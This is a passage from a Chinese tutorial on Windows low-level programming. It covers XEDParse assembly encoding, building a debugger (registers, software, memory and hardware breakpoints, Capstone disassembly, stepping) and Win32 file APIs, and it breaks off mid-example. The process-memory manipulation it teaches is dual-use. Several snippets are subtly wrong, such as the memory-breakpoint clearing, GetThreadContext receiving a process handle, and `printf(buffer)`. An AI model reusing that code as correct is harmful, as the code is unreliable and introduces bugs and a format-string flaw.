XEDParse 是一款开源的x86指令编码库，该库用于将MASM语法的汇编指令级转换为对等的机器码，并以XED格式输出，目前该库支持x86、x64平台下的汇编编码，XEDParse的特点是高效、准确、易于使用，它可以良好地处理各种类型的指令，从而更容易地确定一段程序的指令集。XEDParse库可以集成到许多不同的应用程序和工具中，因此被广泛应用于反汇编、逆向工程、漏洞分析和入侵检测等领域。

 - 官方网站：https://github.com/x64dbg/XEDParse

XEDParse 引擎非常易于使用，读者在使用时只需要通过`XEDPARSE xed = { 0 };`定义一个结构，并通过向`xed.cip`内输送一条汇编指令，当调用`XEDParseAssemble(&xed)`函数时则可实现对特定汇编指令的编码操作，读者只需要通过输出`xed.dest`以及`xed.instr`中的值，则可实现对特定一条汇编指令的编码，这段代码可以描述为如下所示；
```c
#include <iostream>
#include <Windows.h>

extern "C"
{
    #include "D:/XEDParse/XEDParse.h"
    #pragma comment(lib, "D:/XEDParse/XEDParse_x86.lib")
}

using namespace std;

void PrintOpCode(char *pAsm, unsigned char* pOpcode, int nSize)
{
    for (int i = 0; i < nSize; ++i)
    {
        printf("%02X ", pOpcode[i]);
    }
    printf("%30s \n", pAsm);
}

int main(int argc, char *argv)
{
    XEDPARSE xed = { 0 };
    xed.x64 = FALSE;

    // 输入一条汇编指令并转换
    printf("请输入一条汇编指令: ");
    scanf_s("%llx", &xed.cip);
    gets_s(xed.instr, XEDPARSE_MAXBUFSIZE);
    
    // 执行汇编指令
    if (XEDPARSE_OK != XEDParseAssemble(&xed))
    {
        printf("指令错误: %s\n", xed.error);
    }

    // 输出参数
    PrintOpCode(xed.instr, xed.dest, xed.dest_size);

    system("pause");
    return 0;
}
```

编译上述代码片段，并手动将`x32/XEDParse.dll`中的动态链接库放入到当前程序的根目录下，运行这个程序并输入一条汇编指令，则会输出该汇编指令所对应的机器码，输出效果图如下图所示；



读者也可以通过数组的方式传递一批汇编指令，并依次循环输出这些指令的机器码，如下代码中定义了`OpCode`数组，该数组内可写入一些汇编指令集并以`endp`作为结束标志，通过循环调用`XEDParseAssemble(&xed)`的方式，实现批量输出机器码的效果；
```c
int main(int argc, char *argv)
{
    XEDPARSE xed = { 0 };
    xed.x64 = FALSE;

    // 针对数组的汇编编码
    char *OpCode[15] = {
        "xor eax,eax",
        "push eax",
        "pop eax",
        "xor edx,edx",
        "mov eax,1",
        "endp"
    };

    for (int x = 0; x < sizeof(OpCode) / sizeof(OpCode[0]); x++)
    {
        if (strcmp(OpCode[x], "endp") == 0)
        {
            break;
        }

        strcpy(xed.instr, OpCode[x]);
        if (XEDPARSE_OK != XEDParseAssemble(&xed))
        {
            break;
        }
        PrintOpCode(xed.instr, xed.dest, xed.dest_size);
    }

    system("pause");
    return 0;
}
```

这段代码运行后，读者可看到`OpCode`中所有汇编指令的机器码输出，效果图如下图所示；



### 10.6 开发反汇编调试器

动态反汇编调试器是一种软件工具，用于分析和调试二进制程序的执行过程。它能够将二进制程序转换为可读的汇编代码，并提供了一系列的调试功能，帮助开发人员理解和控制程序的执行流程，本篇文章将重点分析动态反汇编调试软件中，软件断点，硬件断点，内存断点，寄存器参数，单步步入，步过，反汇编等功能的实现原理。

#### 10.6.1 寄存器系列函数

寄存器（Registers）是计算机体系结构中的一组高速存储器，用于存储和执行指令时的临时数据。寄存器是位于CPU内部的存储单元，可以直接被CPU访问和操作，其速度非常快，通常用于存储指令操作数、计算中间结果和控制信息。

寄存器在计算机的执行过程中发挥重要作用，常见的寄存器包括：

- 通用寄存器（General Purpose Registers）：用于存储操作数和计算结果。通常有多个通用寄存器，如x86架构中的EAX、EBX、ECX、EDX等。

- 索引寄存器（Index Registers）：用于存储数组和数据结构的索引值，支持对数组元素和结构成员的访问。如x86架构中的ESI和EDI。

- 指针寄存器（Pointer Registers）：用于存储内存地址，支持对内存的访问。如x86架构中的EBP和ESP。

- 标志寄存器（Flag Registers）：用于存储条件码和状态信息，用于控制程序的执行流程和处理条件分支。如x86架构中的EFLAGS。

- 程序计数器（Program Counter）：用于存储下一条要执行的指令的地址，指示程序执行的位置。


不同的计算机体系结构和指令集架构会有不同数量和类型的寄存器，并且寄存器的名称和功能也会有所差异。寄存器的使用和操作是由处理器的指令集架构规定的，程序员可以通过指令操作寄存器的内容，以完成各种计算和数据处理任务。

对于调试其中针对寄存器的输出，一般我们需要定义一个`CONTEXT`结构体变量`context`，并将其`ContextFlags`成员设置为`CONTEXT_ALL`，表示获取所有寄存器的值。然后，再通过调用`GetThreadContext`函数获取指定线程的上下文信息，将获取到的上下文信息存储在`context`变量中，此时就可以获取到当前线程环境下所有寄存器的参数。

```c
VOID GetRegister(HANDLE hThread)
{
    CONTEXT context = { 0 };
    context.ContextFlags = CONTEXT_ALL;

    // 获取线程上下文
    GetThreadContext(hThread, &context);

    printf("\n");
    printf("EAX = 0x%08X | EBX = 0x%08X | ECX = 0x%08X | EDX = 0x%08X \n", context.Eax, context.Ebx, context.Ecx, context.Edx);
    printf("ESI = 0x%08X | EDI = 0x%08X | ESP = 0x%08X | EBP = 0x%08X \n", context.Esi, context.Edi, context.Esp, context.Ebp);

    printf("\n");
    printf("CS = 0x%04X | SS = 0x%04X | DS = 0x%04X \n", context.SegCs, context.SegSs, context.SegDs);
    printf("ES = 0x%04X | FS = 0x%04X | GS = 0x%04X \n", context.SegEs, context.SegFs, context.SegGs);

    printf("\n");
    printf("EIP = 0x%08X \n", context.Eip);
    printf("EFLAGS = 0x%08X \n\n", context.EFlags);
}
```

而如果读者需要修改某个寄存器内的参数，则可以调用`SetThreadContext()`函数，该函数与获取寄存器参数一致，调用它并传入特定寄存器`CONTEXT`结构，即可实现设置的功能。



对于堆栈参数的获取则可通过`ReadProcessMemory`函数读去当前`CONTEXT`上下文中的`ESP`参数获取到，该寄存器中存储的是当前线程的栈顶地址，ESP的值会在函数调用时动态地变化，我们可以在`ESP`指向的位置向下读入特定字节，来获取到当前堆栈的变化，实现代码也很容易。

```c
VOID GetStack(HANDLE hProcess, HANDLE hThread)
{
    PWORD buf[512] = { 0 };
    DWORD dwRead = 0;
    int x = 0;

    CONTEXT context = { 0 };
    context.ContextFlags = CONTEXT_ALL;
    GetThreadContext(hThread, &context);

    ReadProcessMemory(hProcess, (LPVOID)context.Esp, buf, 4 * 20, &dwRead);
    while (x < 20)
    {
        printf_s("[ 0x%08X ] \t 0x%08X \n", context.Esp + x * 4, buf[x]);
        x++;
    }
}
```

堆栈参数获取，通过`GetThreadContext`得到堆栈中的`ESP`位置，并直接调用`ReadProcessMemory`读出前20字节，最终输出堆栈参数，如下图所示；



#### 10.6.2 软件断点函数

软件断点（Software Breakpoint），用于在程序执行过程中主动中断程序的执行。它是通过在代码中插入特殊的指令或标记来实现的，当程序执行到该指令或标记时，会触发一个中断信号，使程序停止执行并进入调试器。

软件断点的作用是在特定的代码位置设置断点，用于调试程序或跟踪代码执行流程。通过设置软件断点，可以在程序执行到指定的位置时中断，然后可以检查变量的值、查看内存状态、跟踪函数调用等，以便进行调试和分析。

在实现上，软件断点可以通过不同的机制来实现，常见的方式包括：

- 修改指令：将要中断的指令替换为中断指令，例如软中断指令（int3）或特殊的NOP指令。当程序执行到替换后的指令时，会触发中断信号。

- 插入中断指令：在代码中插入中断指令，例如软中断指令（int）或调用中断处理函数的指令。当程序执行到插入的中断指令时，会触发中断信号。

- 使用调试寄存器：调试寄存器（Debug Register）是处理器提供的专门用于调试的寄存器。可以将调试寄存器配置为监视指定的内存地址或指令地址，在目标地址发生读取或写入操作时触发中断信号。


软件断点是调试器的核心功能之一，本章所讲解的断点实现方法是通过在对端内存中写入`0xcc`指令实现的，在设置断点时，首先通过`OpenProcess`打开一个目标进程，并通过`ReadProcessMemory`将特定内存位置处一个字节数据保存在内存方便后期恢复，接着通过`WriteProcessMemory`函数将`0xCC`停机写出到特定内存中，此时即可实现内存断点的设置功能。

```c
BOOL SetSoftBreakPoint(DWORD PID, LPVOID Address, BOOL BpAttribute)
{
    HANDLE ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);

    // 存放CC断点信息
    CCBREAKPOINTINFO ccInfo = { 0 };

    // 下断点地址
    ccInfo.address = Address;

    // 是否为永久CC断点
    ccInfo.BpAttribute = BpAttribute;

    // 读出一个字节保存起来
    ReadProcessMemory(ProcessHandle, Address, &ccInfo.code, 1, NULL);

    // 写出CC断点
    WriteProcessMemory(ProcessHandle, Address, "\xCC", 1, NULL);

    // 保存断点信息
    BreakPointList.push_back(ccInfo);

    CloseHandle(ProcessHandle);

    return TRUE;
}
```

相对于设置软件断点，移除断点则变得较为复杂一些，在移除之前首先判断`boole`是否为真，如果为真则需要移除指定断点，首先通过循环遍历`BreakPointList`这个内存结构，该结构内保存的就是当前所设置的所有完整断点信息，通过判断`BreakPointList[i].address`地址是否是我们需要移除的内存，如果是则首先`GetThreadContext`获取到当前进程上下文，得到的`EIP`地址减去1并将短短设置到`0xCC`之上，接着使用`WriteProcessMemory`函数将原始指令写出替换到特定位置，如果为假的，则表明需要移除所有断点。

```c
VOID RemoveSoftBreakPoint(PROCESSINFO ProcessInfo, BOOL boole, LPVOID addr)
{
    // 如果 "boole" 参数为 TRUE，则只移除指定的地址处的断点。
    if (boole == TRUE)
    {
        // 遍历 BreakPointList 查找要移除的断点
        for (int i = 0; i < BreakPointList.size(); i++)
        {
            if (BreakPointList[i].address == addr)
            {
                CONTEXT ct = { CONTEXT_CONTROL };

                // 获取当前线程上下文
                GetThreadContext(ProcessInfo.hThread, &ct);

                // 将上下文减去1
                ct.Eip -= 1;

                // 设置新的上下文
                SetThreadContext(ProcessInfo.hThread, &ct);

                // 在目标进程中恢复断点原始的指令
                WriteProcessMemory(ProcessInfo.hProcess, BreakPointList[i].address, &(BreakPointList[i].code), 1, NULL);
            }
        }
    }
    // 如果 "boole" 参数为 FALSE，则移除所有已设置的断点。
    else
    {
        // 遍历 BreakPointList 移除所有断点
        for (int i = 0; i < BreakPointList.size(); i++)
        {
            // 在目标进程中恢复断点原始的指令
            WriteProcessMemory(ProcessInfo.hProcess, BreakPointList[i].address, &(BreakPointList[i].code), 1, NULL);
        }
    }
}
```

如下图所示则是该函数执行后的输出效果，通过`SetBreakPoint`可以设置一个内存断点，通过`ShowBreakPoint`则是循环`BreakPointList`并输出，通过`DelBreakPoint`则是删除一个特定内存断点。



#### 10.6.3 内存断点函数

内存断点（Memory Breakpoint），用于在程序访问指定内存地址时中断程序的执行。与软件断点不同，内存断点是通过监视特定的内存地址来触发中断信号，而不是通过修改指令或插入中断指令。此类断点用于监视变量的读取或写入操作，检测内存访问错误、内存泄漏、越界访问等问题。当程序执行到设置的内存断点所监视的内存地址时，会触发中断信号，使程序停止执行并进入调试器。

内存断点和软件断点，它们在触发中断信号的方式和使用场景上有所不同。软件断点是通过修改指令来实现的，用于调试特定的代码段和函数，而内存断点是通过监视特定的内存地址来实现的，用于监视内存访问和变化。

在本例中内存断点的设置通过`VirtualProtectEx`函数来实现，该函数可以修改特定内存空间的属性值，而内存空间的属性值通常包括了，`PAGE_NOACCESS`内存访问，`PAGE_EXECUTE_READ`内存读写执行，以及`PAGE_READWRITE`内存读写这三种形式，当在某一个区域设置断点后，系统则会监控这片区域，一旦有执行流访问则会产生一个特定的异常，至此程序将被断下，在设置内存属性时，需要将设置之前的内存属性值保存在`MemoryBreakList`链表中，当清除时会用到。

```c
VOID SetMemBreakPoint(HANDLE hProcess, char* flag, DWORD Address)
{
    MEMORYPOINTINFO mbp = { 0 };
    // mbp.address = Address & 0xFFFFF000;
    mbp.address = Address;

    for (int i = 0; i < MemoryBreakList.size(); i++)
    {
        if (mbp.address == MemoryBreakList[i].address)
        {
            printf_s("[-] 目标内存页已存在内存断点 \n");
            return;
        }

    }

    if (!strcmp(flag, "r"))
    {
        // 内存访问断点
        mbp.dwNewProtect = PAGE_NOACCESS;
    }
    else if (!strcmp(flag, "w"))
    {
        // 设置读与执行
        mbp.dwNewProtect = PAGE_EXECUTE_READ;
    }
    else if (!strcmp(flag, "e"))
    {
        // 设置读写
        mbp.dwNewProtect = PAGE_READWRITE;
    }
    else
    {
        printf("[-] 不存在页面属性 \n");
        return;
    }

    // 设置内存属性
    if (!VirtualProtectEx(hProcess, (LPVOID)mbp.address, 0x1000, mbp.dwNewProtect, &mbp.dwOldProtect))
    {
        printf_s("[-] 内存断点下达失败 \n");
        return;
    }
    MemoryBreakList.push_back(mbp);
}
```

清除内存断点时，我们只需要在`MemoryBreakList`链表中提取出特定的内存属性，并依次循环`WriteProcessMemory`将内存属性还原即可，如下则是循环查找符合条件的内存地址，并删除内存断点的实现流程。

```c
VOID ClearMemoryBreakPoint(PROCESSINFO ProcessInfo, DWORD address)
{
    for (int i = 0; i < MemoryBreakList.size(); i++)
    {
        if (MemoryBreakList[i].address == address)
        {
            // 修复后删除
            WriteProcessMemory(ProcessInfo.hProcess, (DWORD *)MemoryBreakList[i].address, &(MemoryBreakList[i].dwOldProtect), 1, NULL);
            MemoryBreakList.erase(MemoryBreakList.begin() + i);
        }
    }
}
```

读者可自行使用课件内的调试软件，通过`SetMemBreakPoint`设置内存断点，通过`ShowMemBreakPoint`显示当前断点列表，通过`DelMemBreakPoint`移除内存断点，如下图所示；



#### 10.6.4 硬件断点函数

与上述软件断点实现原理不同，硬件断点的设置需要依赖于处理器的调试寄存器（debug registers）来实现，在x86架构中，处理器提供了多个调试寄存器（DR0、DR1、DR2、DR3），它们可以用来设置断点和监视点。每个调试寄存器可以存储一个内存地址，并在程序执行到该地址时触发断点。

与软件断点相比，硬件断点具有以下优点：

- 硬件断点不需要修改程序的代码，因此对目标程序的影响较小，适用于调试无法修改源代码的程序。
- 硬件断点可以设置在任意的内存地址上，包括只读或只执行的内存区域。
- 硬件断点可以设置多个，可以同时监视多个内存地址。

然而，硬件断点也有一些限制和注意事项：

- 处理器提供的调试寄存器数量有限，通常为4个，因此硬件断点的数量也有限。
- 硬件断点可能受到处理器架构和调试器的限制，例如一些处理器可能限制硬件断点只能设置在特定的地址对齐位置上。
- 在多线程程序中，硬件断点可能会影响整个进程的执行，而不仅仅是触发断点的线程。

对于实现硬件断点我们只能够通过设置寄存器组来实现，通常我们需要将需要设置的断点地址填充至`context.Dr`寄存器内，并同时将`context.Dr7`寄存器设置为对应的`0x00000004,0x00000010,0x00000040`至此当有断点产生，系统会为我们捕捉并产生断点异常事件，而对于清除断点则是相反的流程，通过对`context.Dr7 & 0xFFFFFFFE`取消设置属性，并通过`context.Dr`将寄存器设置为0实现清空效果。

```c
void SetHardwareBreakpoint(HANDLE hProcess, DWORD_PTR address)
{
    CONTEXT context;
    memset(&context, 0, sizeof(CONTEXT));
    context.ContextFlags = CONTEXT_DEBUG_REGISTERS;
    
    // 获取进程的上下文
    if (!GetThreadContext(hProcess, &context))
    {
        return;
    }

    // 设置断点
    if (context.Dr0 == 0)
    {
        context.Dr0 = address;
        context.Dr7 |= 0x00000001;  // 设置Dr0为触发断点
    }
    else if (context.Dr1 == 0)
    {
        context.Dr1 = address;
        context.Dr7 |= 0x00000004;  // 设置Dr1为触发断点
    }
    else if (context.Dr2 == 0)
    {
        context.Dr2 = address;
        context.Dr7 |= 0x00000010;  // 设置Dr2为触发断点
    }
    else if (context.Dr3 == 0)
    {
        context.Dr3 = address;
        context.Dr7 |= 0x00000040;  // 设置Dr3为触发断点
    }
    else
    {
        return;
    }

    // 应用修改后的上下文
    if (!SetThreadContext(hProcess, &context))
    {
        return;
    }
}
```

硬件断点的设置需要指定断点的长度以及断点类型，通常该类型取值空间为`读（r）、写（w）和执行（x）`，读者可通过`SetHbreakPoint`设置一个硬件断点，通过`ShowHbreakPoint`输出当前断点寄存器，并通过`DelHbreakPoint`清空一个硬件断点，如下图所示。



#### 10.6.5 反汇编功能函数

在之前的文章中我们已经介绍了反汇编引擎的使用方法，本节内容将重点实现反汇编功能，在对一段内存进行反汇编时我们需要完成两个步骤，首先需要通过`RemoveSoftBreakPoint`清除改地址处的`0xCC`指令，接着在调用`ReadProcessMemory`函数在传入内存地址处向下读取指定长度的内存，接着通过调用`cs_disasm`函数对读取的内存空间进行反汇编，结果存储在`ins`中，并返回反汇编指令的数量`nCount`，此时我们只需遍历反汇编指令数组`ins`，并逐个输出每条指令的地址、机器码和反汇编结果，最后需要调用`RecoverSoftBreakPoint`函数再次对内存增加断点。

```c
VOID Disassembler(PROCESSINFO ProcessInfo, DWORD addr, DWORD num)
{
    cs_insn* ins = nullptr;

    DWORD dwWrite = 0;
    PCHAR buff = new CHAR[num * 16]();

    // 清除CC
    RemoveSoftBreakPoint(ProcessInfo, FALSE, NULL);

    // 读取指定长度的内存空间
    ReadProcessMemory(ProcessInfo.hProcess, (LPVOID)addr, buff, num * 16, &dwWrite);

    // 接收反汇编指令
    size_t nCount = cs_disasm(ProcessInfo.capHandle, (uint8_t*)buff, num * 16, (uint64_t)addr, 0, &ins);
    for (DWORD i = 0; i < nCount && i < num; ++i)
    {
        printf("%08X | ", (UINT)ins[i].address);

        int tmp = 0;

        // 循环打印机器码
        while (ins[i].size)
        {
            printf_s("%02X ", ins[i].bytes[tmp]);
            tmp++;
            ins[i].size -= 1;
        }

        // 补充空余位
        for (int x = tmp; x <= 9; x++)
        {
            printf("   ");
        }

        // 输出对应的反汇编
        printf(" | %s %s \n", ins[i].mnemonic, ins[i].op_str);
    }

    // 释放动态分配的空间
    delete[] buff;
    cs_free(ins, nCount);

    // 恢复CC
    RecoverSoftBreakPoint(ProcessInfo, FALSE, NULL);
}
```

读者可以通过`Dissasembler`对当前`EIP`位置处向下反汇编，该命令接受一个反汇编长度，可传入不同的反汇编长度，输出效果如下所示；



#### 10.6.6 单步步过/步进函数

单步步过是指单步执行一条汇编指令，执行完当前指令后立即停止并返回调试器，然后让程序处于暂停状态等待用户的下一步操作。如果当前指令是函数调用，那么单步步过将会进入函数执行，在函数内部执行完返回到调用处的下一条指令时停止并返回调试器。

步进是指程序在当前位置执行完所有指令之后停止，并等待用户输入下一步操作，下一步可以是单步步过，也可以是继续运行直到下一个断点或程序结束。

两者的区别在于，单步步过是一种精细的调试方式，可以逐条执行代码，以查看每一行代码执行的结果，以及监视寄存器和内存中的值的变化，而步进则更适用于在特定位置进行调试，以及查看程序运行流程和检测异常行为。

在调试器中，单步模式的实现依赖于`EFLAGS`寄存器中的第`8`位（即`TF`标志位），当`TF`标志位被设置为`1`时，CPU在执行每条指令后会触发一个中断，称为单步中断或单步异常。这个中断会暂停程序的执行，将控制权交给调试器。此时调试器可以利用这个机会进行下一步调试操作，例如查看寄存器的值、内存的内容，或者修改寄存器和内存的值，对于设置单步模式则可通过`SetTFFlag`函数直接设置。

```c
VOID SetTFFlag(HANDLE hThread)
{
    CONTEXT ct = { 0 };
    ct.ContextFlags = CONTEXT_CONTROL;
    GetThreadContext(hThread, &ct);
    ct.EFlags |= 0x100;
    SetThreadContext(hThread, &ct);
}
```

当有了单步步进后，我们就可以在该模式的基础之上实现单步步过功能，步过功能的实现，首先通过`GetThreadContext`函数获取当前线程的上下文信息，然后获取当前线程执行指令的地址。读取该地址处的指令并通过`Capstone`库中的`cs_disasm`函数对其进行反汇编，以便判断该指令是不是`call`或者`rep`指令。

如果该指令是`call`或者`rep`指令，则在`call`指令的下一条指令处需要设置软件断点，以防止程序执行运行起来，如果该指令不是`call`或者`rep`指令，则直接设置`TF`标志位，然后程序进入单步执行状态。

```c
VOID SetStepFlag(PROCESSINFO ProcessInfo)
{
    CONTEXT ct = { 0 };
    ct.ContextFlags = CONTEXT_CONTROL;
    GetThreadContext(ProcessInfo.hThread, &ct);
    DWORD Address = ct.Eip;
    cs_insn* ins = nullptr;
    PCHAR buf[16] = { 0 };

    ReadProcessMemory(ProcessInfo.hProcess, (LPVOID)Address, buf, 16, NULL);

    cs_disasm(ProcessInfo.capHandle, (uint8_t*)buf, (size_t)16, (uint64_t)Address, 0, &ins);

    // 如果是call或者是rep 则需要在 call下面增加一个断点 防止跑飞
    if (!memcmp(ins->mnemonic, "call", 4) || !memcmp(ins->mnemonic, "rep", 3))
    {
        // 设置断点
        SetSoftBreakPoint(ProcessInfo.PID, (LPVOID)(Address + ins->size), TRUE);
    }
    else
    {
        // 步进
        SetTFFlag(ProcessInfo.hThread);
    }
}
```

当执行`StepOut`步过时，遇到`call`不进入直接跳过，而是直接执行完整个`call`调用并将指针指向`call`指令的下一条指令上，



而如果读者使用的是`StepIn`命令，则遇到`call`指令则会自动的切换到`call`调用内部，并继续执行直到遇到返回才会退出，读者可通过两图对比两者之间的区别。



## 第十一篇：文件与磁盘操作技术

在安全编程中，针对磁盘与目录的操作也是非常重要的，本章将重点介绍如何实现针对文件目录与磁盘的操作方法，其中包括了删除文件，文件拷贝，文件读写，目录遍历输出，遍历磁盘容量信息，磁盘格式化，输出分区表数据，监控目录变化等。

### 11.1 DelteFile

DeleteFile 函数用于删除指定的文件，该函数位于`windows.h`头文件中，此函数只能用于删除文件而无法删除目录，如果需要删除目录则需要使用`RemoveDirectory`来实现，该函数原型如下：

```c
BOOL DeleteFile(
LPCTSTR lpFileName
);
```

其中，`lpFileName` 参数是一个指向以 `NULL` 结尾的字符串，表示要删除的文件名，可以是绝对路径或相对路径，函数执行成功时返回 `TRUE`，否则返回 `FALSE`，如果删除失败则可以调用`GetLastError()`得到失败代码。

```c
#include <iostream>
#include <Windows.h>

int main(int argc, const char* argv[])
{
  // 如果非零则删除失败
  if (!DeleteFile("d://lyshark.exe"))
  {
    printf("删除文件错误：%x \n", GetLastError());
  }

  system("pause");
  return 0;
}
```

### 11.2 CopyFile

CopyFile 函数，用于将一个文件从一个位置复制到另一个位置，该函数原型为：

```c
BOOL CopyFile(
  LPCWSTR lpExistingFileName,
  LPCWSTR lpNewFileName,
  BOOL    bFailIfExists
);
```

其中，`lpExistingFileName` 表示要复制的文件名，`lpNewFileName` 表示复制后的新文件名，`bFailIfExists` 表示如果新文件名已经存在是否覆盖。如果成功复制文件，则返回非零值。如果失败，则返回零。

```c
#include <iostream>
#include <Windows.h>

// 判断是否为目录
BOOL isDirectory(char* path)
{
  WIN32_FIND_DATA fd;
  BOOL rel = FALSE;
  char* p = path;

  // 查找到第一个文件的句柄
  HANDLE hFind = FindFirstFile(path, &fd);

  while (*p != '\0') p++;

  // 如果结尾是这两种符号就肯定是目录
  if (*(--p) == '\\' || *(p) == ' / ')
  {
    *p = '\0';
    return TRUE;
  }
  // 判断是否获取错误
  if (hFind != INVALID_HANDLE_VALUE)
  {
    // 文件信息按位与上目录属性, 非目录则全部置零
    if (fd.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
    {
      rel = TRUE;
    }
    // 关闭查找句柄
    FindClose(hFind);
  }
  return rel;
}

int main(int argc, char* argv[])
{
  char file_src[MAX_PATH] = { 0 };
  char file_dest[MAX_PATH] = { 0 };

  strcpy(file_src, "d://lyshark.exe");
  strcpy(file_dest, "d://");

  if (isDirectory(file_dest))
  {
    // 如果第二个参数是目录,则拼装新的文件路径
    sprintf(file_dest, "%s\\%s", file_dest, file_src);
  }

  if (CopyFile(file_src, file_dest, 0) == 0)
  {
    printf("文件复制失败 \n");
  }
  else
  {
    printf("文件已复制 \n");
  }

  system("pause");
  return 0;
}
```

### 11.3 MoveFile

MoveFile 函数，用于将文件从一个位置移动到另一个位置，该函数可以用于重命名文件或将文件从一个目录移动到另一个目录。如果要在同一目录中重命名文件，可以将文件的新名称作为 `lpNewFileName` 参数提供，而 `lpExistingFileName` 参数应保持不变。如果要移动文件到另一个目录，可以提供新目录的路径和名称作为 `lpNewFileName`参数，该函数原型如下所示；

```c
BOOL MoveFile(
  LPCTSTR lpExistingFileName,
  LPCTSTR lpNewFileName
);
```

其中，`lpExistingFileName` 是要移动的文件的完整路径和名称，`lpNewFileName` 是文件的新路径和名称。如果文件成功移动，则函数返回非零值，否则返回零，读者需要注意，该函数只能移动文件，无法移动文件夹。如果要移动文件夹，可以使用 `MoveFileEx()` 函数。

```c
#include <iostream>
#include <Windows.h>

// 判断是否为目录
BOOL isDirectory(char* path)
{
  WIN32_FIND_DATA fd;
  BOOL rel = FALSE;
  char* p = path;

  // 查找到第一个文件的句柄
  HANDLE hFind = FindFirstFile(path, &fd);

  while (*p != '\0') p++;

  // 如果结尾是这两种符号就肯定是目录
  if (*(--p) == '\\' || *(p) == ' / ')
  {
    *p = '\0';
    return TRUE;
  }
  // 判断是否获取错误
  if (hFind != INVALID_HANDLE_VALUE)
  {
    // 文件信息按位与上目录属性, 非目录则全部置零
    if (fd.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
    {
      rel = TRUE;
    }
    // 关闭查找句柄
    FindClose(hFind);
  }
  return rel;
}

int main(int argc, char* argv[])
{
  char file_src[MAX_PATH] = { 0 };
  char file_dest[MAX_PATH] = { 0 };

  strcpy(file_src, "d://lyshark.exe");
  strcpy(file_dest, "d://lyshark");

  if (isDirectory(file_dest))
  {
    // 如果第二个参数是目录, 则拼装新的文件路径
    sprintf(file_dest, "%s\%s", file_dest, file_src);
  }

  if (MoveFile(file_src, file_dest) == 0)
  {
    printf("文件剪切失败 \n");
  }
  else
  {
    printf("文件剪切成功 \n");
  }

  system("pause");
  return 0;
}
```

### 11.4 ReadFile

ReadFile是一个文件读取函数，该函数可以将一个文件读入到特定的缓冲区内，在读取之前读者需要自行调用`CreateFileA`函数打开一个文件，首先来看一下打开文件的函数原型；

```c
HANDLE CreateFileA(
  LPCSTR                lpFileName,
  DWORD                 dwDesiredAccess,
  DWORD                 dwShareMode,
  LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  DWORD                 dwCreationDisposition,
  DWORD                 dwFlagsAndAttributes,
  HANDLE                hTemplateFile
);
```

函数创建或打开一个文件或输入输出`(I/O)`设备的函数。函数返回一个类型为 `HANDLE` 的文件句柄，该句柄可用于后续对文件的读写操作。如果文件创建成功，返回值是文件的句柄；如果函数失败，则返回值是 `INVALID_HANDLE_VALUE(-1)`。

参数说明：

- lpFileName：要打开的文件名或设备名，该参数可以是完整路径名、相对路径名或文件名和相对路径名的组合。
- dwDesiredAccess：要求对文件进行的访问类型，如 GENERIC_READ 或 GENERIC_WRITE，也可以同时指定。
- dwShareMode：其他进程访问该文件时的共享模式，如 FILE_SHARE_READ 或 FILE_SHARE_WRITE。
- lpSecurityAttributes：一个指向 SECURITY_ATTRIBUTES 结构的指针，指定文件的安全属性。该参数可以为空，表示文件没有安全属性。
- dwCreationDisposition：如何创建新的文件，如 CREATE_NEW 或 OPEN_ALWAYS。
- dwFlagsAndAttributes：文件的属性和标志，如 FILE_ATTRIBUTE_NORMAL 或 FILE_FLAG_BACKUP_SEMANTICS。
- hTemplateFile：文件句柄，该文件句柄必须是 GENERIC_READ 访问类型的文件。

接着是`ReadFile`函数的原型定义；

```c
BOOL ReadFile(
  HANDLE       hFile,
  LPVOID       lpBuffer,
  DWORD        nNumberOfBytesToRead,
  LPDWORD      lpNumberOfBytesRead,
  LPOVERLAPPED lpOverlapped
);
```

参数说明：

- hFile: 要读取的文件句柄

- lpBuffer: 指向用于存储读取数据的缓冲区的指针
- nNumberOfBytesToRead: 要读取的字节数
- lpNumberOfBytesRead: 返回实际读取的字节数的指针
- lpOverlapped: 指定了异步读取的选项。如果想要同步读取，该参数可以为NULL。

该函数如果函数成功读取，则返回非零值，`lpNumberOfBytesRead`指向的变量将被设置为实际读取的字节数，如果函数失败，则返回零。要获取扩展错误信息，可调用`GetLastError()`函数。

```c
#include <iostream>
#include <Windows.h>

int main(int argc, char* argv[])
{
  HANDLE hFile;
  DWORD fileSize, readSize;
  char* buffer;

  hFile = CreateFile(
    "d:\\lyshark.exe",      // 文件名
    GENERIC_READ,           // 读取权限
    0,                      // 阻止其他进程访问
    NULL,                   // 子进程不可继承本句柄
    OPEN_EXISTING,          // 仅当该文件或设备存在时，打开它
    FILE_ATTRIBUTE_NORMAL,  // 普通文件
    NULL);                  // 不适用模板文件

  if (hFile == INVALID_HANDLE_VALUE)
  {
    return 0;
  }

  fileSize = GetFileSize(hFile, NULL);  // 获取文件大小
  buffer = (char*)malloc(fileSize + 1); // 获取一块内存
  buffer[fileSize] = '\0';              // 设置结尾

  ReadFile(
    hFile,      // 文件句柄
    buffer,     // 读取到的文件所存放的缓冲区
    fileSize,   // 要读取的字节数
    &readSize,  // 实际读取的字节数
    NULL        // 用 FILE_FLAG_OVERLAPPED 打开时所需的
    );

  printf(buffer);

  CloseHandle(hFile);
  free(buffer);

  system("pause");
  return 0;
}
```

### 11.5 FindNextFile 

文件的遍历需要依赖于两个函数，`FindFirstFile()` 和 `FindNextFile()`，它们可以查找指定路径下的所有文件和子目录，并且返回每个文件和目录的属性信息，例如文件名、文件大小、文件类型等。

代码使用了一个结构体 `WIN32_FIND_DATA` 来保存查找到的文件信息。该结构体包含了文件的类型、文件名、文件大小、创建时间等信息，通过不断调用 `FindNextFile()` 函数，可以依次获取到每个文件的信息，直到遍历完整个目录。

读者需要注意，在调用 `FindFirstFile()` 函数时，需要将查找路径与通配符（例如`“*”`）拼接在一起，这样才能查找到该路径下的所有文件。此外，需要在查找完毕后调用 `FindClose()` 函数关闭查找句柄，避免资源泄漏。

```c
#include <iostream>
#include <windows.h>
#include <string.h>

int main(int argc, const char* argv[])
{
  CHAR szFilePath[MAX_PATH];   // 具体查找路径
  HANDLE hListFile;            // 获取到的文件句柄
  WIN32_FIND_DATA fileData;    // 查找到的文件数据 

  // 枚举路径
  lstrcpy(szFilePath, "d://");

  // 路径拼接通配符
  lstrcat(szFilePath, "\*");

  printf("列表路径： [%s] \n", szFilePath);

  // 查找路径下第一个文件/目录，获得句柄
  hListFile = FindFirstFile(szFilePath, &fileData);

  // 判断句柄是否获取到
  if (hListFile == INVALID_HANDLE_VALUE)
  {
    printf("错误：%d \n", GetLastError());
